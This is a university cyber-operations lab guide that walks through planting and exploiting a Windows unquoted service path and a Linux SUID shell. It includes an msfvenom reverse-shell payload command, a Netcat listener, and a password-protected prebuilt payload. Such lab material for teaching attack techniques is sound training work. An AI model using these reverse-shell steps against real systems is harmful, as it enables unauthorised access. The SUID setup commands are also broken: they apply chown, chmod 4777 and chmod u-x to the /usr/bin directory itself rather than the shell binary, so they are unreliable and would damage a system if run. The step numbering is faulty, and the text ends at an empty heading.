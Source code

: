 # Security First Principles: Least Privilege Labs
Created for DSU's Cyber Operations I course

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Windows PrivEsc (Horizontal/Vertical)
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add two additional standard users the box, with different passwords. Use the only one of the users for the following steps.
2. Create a "Step 4" folder on the desktop of the selected user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Automated Service`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the second user created in Configuration step 1.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Automated.exe`.
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Automated.exe` in the Windows PrivEsc archive in the repo.
          * Password: `infected`

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the LInux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the first user. Use `whoami` to verify this.

## Linux Horziontal PrivEsc
### Configuration
#### Horizontal PrivEsc via SUID
1. Add two additional users the box, with different passwords. These users should not be able to use `sudo`. Use the only one of the users for the following steps.
2. Create a "Step 4" folder on the desktop of the first user.
3. Build the modified Bash shell in the Linux PrivEsc folder in the repo with `./configure` and `make`. Name it `shell`.
      * This modification always runs the Bash shell in privileged mode (so that the SUID bit won't be [ignored by default](https://www.gnu.org/software/bash/manual/bash.html)).
      * A pre-built `shell` for the Linux Exercises box is also in the folder.
4. Place the `shell` in the `/usr/bin` folder.
5. Set the owner and group (if applicable) and the SUID bit on the file:
      * If set correctly, permissions should be `-rwSrwxrwx` and the user and group will be the first user.

```
chown [first user] /usr/bin
chgrp [first user] /usr/bin
chmod 4777 /usr/bin
chmod u-x /usr/bin
```

### Exploitation
#### Horizontal PrivEsc via SUID
1. Log on to the second user created in Configuration step 1.
2. Execute the `/usr/bin/shell` file. A Bash shell should spawn with the permissions of the first user. Use `whoami` to verify this.

## Linux Vertical PrivEsc
